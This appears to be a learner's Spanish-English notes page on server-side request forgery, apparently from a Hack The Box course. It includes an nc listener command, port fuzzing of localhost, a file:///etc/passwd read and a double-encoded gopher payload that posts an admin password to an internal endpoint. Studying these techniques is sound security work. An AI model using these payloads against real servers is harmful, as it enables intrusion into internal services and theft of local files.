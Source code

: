 
Server-side request forgery es una vulnerabilidad donde una web hace request a ciertos recursos de otros servidores según el input del usuario y que puede ser vulnerado haciendo request a sitios que no debería 

## URL-schemes

- `http://` and `https://`: These URL schemes fetch content via HTTP/S requests. An attacker might use this in the exploitation of SSRF vulnerabilities to bypass WAFs, access restricted endpoints, or access endpoints in the internal network
- `file://`: This URL scheme reads a file from the local file system. An attacker might use this in the exploitation of SSRF vulnerabilities to read local files on the web server (LFI)
- `gopher://`: This protocol can send arbitrary bytes to the specified address. An attacker might use this in the exploitation of SSRF vulnerabilities to send HTTP POST requests with arbitrary payloads or communicate with other services such as SMTP servers or databases
## SSRF Confirmation

Para saber si es vulnerable , en burp en la request pon una url que sea una ip tuya  o simplemente la loop ip  `127.0.0.1` seguida de un puerto y haz 
`nc -lnvp <puerto>`  para ver si hace una request a tu server

## Enumeratin g the System

1. Hacer una wordlist de puertos
```shell-session
 seq 1 10000 > ports.txt
```
2. fuzzear en la request de burp
```
http://127.0.0.1:<puerto fuzz>
```
suele estar abierto el `3306` para bases de datos SQL


## Exploiting SSRF

### Basic

-Una vez tenemos confirmado SSRF podemos enumerar los directorios del servidor al que hace la request simplemente fuzzeandola.
### LFI

-A su vez podemos hacer LFI haciendo `file:///etc/passwd` en ves de la url

### POST

En caso de que queramos hacer una peticion POST a un servidor gracias a un SSRF no la podremos usar a menos que usemos el protocolo gopher

REQUEST:
```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

GOPHER
1. URL encodear la request
```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```
2. URL encodear la url de antes otra vez
```
gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin
```
ya ta

También se pueden crear url de gopher de forma automática con la herramienta gopherus
